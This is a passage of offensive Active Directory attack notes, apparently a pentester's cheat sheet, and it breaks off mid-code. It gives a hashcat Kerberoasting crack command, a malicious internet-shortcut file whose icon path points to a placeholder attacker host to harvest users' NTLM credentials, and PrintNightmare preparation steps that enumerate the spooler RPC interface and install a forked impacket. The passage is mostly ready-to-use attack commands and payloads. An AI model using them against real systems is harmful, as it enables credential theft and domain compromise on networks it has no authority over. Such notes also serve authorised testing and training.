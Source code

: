     ```bash
    hashcat64.exe -m 13100 hachat.txt rockyou.txt -O
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%2010.png)
    
- User File Attack
    
    [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md#scf-and-url-file-attack-against-writeable-share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
    
    ```html
    [InternetShortcut]
    URL=blah
    WorkingDirectory=blah
    IconFile=\\x.x.x.x\%USERNAME%.icon
    IconIndex=1
    ```
    
- PrintNightmare
    
    ```bash
    rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
    pip3 uninstall impacket
    git clone https://github.com/cube0x0/impacket
    cd impacket
    python3 ./setup.py install
    